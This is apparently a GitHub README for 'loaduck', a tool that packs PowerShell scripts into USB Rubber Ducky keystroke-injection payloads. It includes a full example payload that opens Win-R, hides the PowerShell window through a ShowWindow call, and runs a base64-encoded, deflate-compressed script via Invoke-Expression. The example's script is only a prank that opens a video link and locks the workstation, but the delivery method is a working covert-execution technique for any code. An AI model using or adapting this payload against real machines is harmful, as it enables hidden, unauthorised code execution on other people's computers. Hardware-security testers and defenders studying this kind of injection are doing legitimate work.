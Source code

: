 # loaduck

PowerShell script bootstrapper for the Hak5 USB Rubber Ducky.

Written in PowerShell.

Targets Windows 7 and Windows 10, YMMV otherwise.

## How

PowerShell files can be dragged on to loaduck.ps1 to generate a .ps1.ducky.txt
file that can be used on the ducky.

Or you can use a command like:

    powershell .\loaduck.ps1 [ps1 filename]

This will generate:

    [ps1 filename].ducky.txt

The wrapper script zips your source PowerShell into a single line, then
injects it in an (almost) invisible payload that's fired from Win-R.

### Example

For example, given a (really annoying) PowerShell script of:

```powershell
For ($i=0; $i -le 2; $i++) {
    start https://www.youtube.com/watch?v=dQw4w9WgXcQ
}
rundll32.exe user32.dll,LockWorkStation
```
The script will be encoded into the following Ducky Script:

```
DELAY 5000
GUI r
DELAY 250
ALT SPACE
STRING M
DOWN
REPEAT 40
ENTER
STRING powershell -w hidden iex '(Add-Type n -pas -m ''[DllImport(\"user32\")]public static extern int ShowWindow(int h,int n);'')::ShowWindow((gps -Id $pid).MainWindowHandle,0);Read-Host|iex'
ENTER
DELAY 1000
STRING Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String('c8svUtBQybQ1sFZQyVTQzUlVMAKxtLU1Faq5FICguCSxqEQho6SkoNhKX7+8vFyvMr+0pDQpVS85P1e/PLEkOcO+zDYlsNyk3DI8PSI5kKuWq6g0LyUnx9hIL7UiVaG0OLUIyAQK6PjkJ2eH5xdlB5cklmTm53HxcgEA')))), [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();
ENTER
```

The long PowerShell script creates the hidden PowerShell window that listens
for keystrokes (our minified annoying script in this case) and then runs them
when it receives and Enter key.

## Compression script

Borrowed from https://github.com/samratashok/nishang - that file remains GPL
licensed.

Small modifications have been made to reduce the final script size - see
https://github.com/thisismyrobot/loaduck/compare/4bd150a...master for those
changes.

